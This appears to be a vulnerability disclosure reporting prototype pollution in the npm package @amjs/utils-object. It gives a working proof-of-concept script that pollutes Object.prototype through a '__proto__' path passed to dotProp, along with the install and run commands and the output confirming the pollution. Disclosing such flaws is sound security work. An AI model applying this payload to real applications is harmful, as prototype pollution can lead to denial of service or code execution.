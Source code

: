 # Description

`@amjs/utils-object` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var utilsObject = require("@amjs/utils-object")
const context = {};
console.log("Before : " + {}.polluted);
utilsObject.dotProp(context, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i @amjs/utils-object # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
